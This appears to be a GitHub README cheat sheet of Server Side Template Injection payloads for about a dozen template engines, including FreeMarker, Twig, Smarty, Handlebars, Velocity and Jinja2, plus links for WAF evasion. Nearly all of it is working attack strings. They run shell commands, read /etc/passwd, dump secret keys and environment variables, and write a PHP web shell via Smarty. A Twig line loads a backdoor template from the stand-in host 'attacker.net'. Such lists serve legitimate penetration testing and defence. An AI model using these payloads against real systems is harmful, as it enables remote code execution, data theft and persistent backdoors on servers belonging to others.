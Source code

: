 <s>(insert good title here)</s> SysTeen
================

- [Cheatsheets](#Cheatsheets)

----------------------------------

## Cheatsheets

### Server Side Template Injection (SSTI)

##### Polyglot:
```
${{<%[%'"}}%\
```

##### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
##### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
##### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
##### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
##### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
##### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
##### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
##### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
##### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
##### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
##### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
##### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
##### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
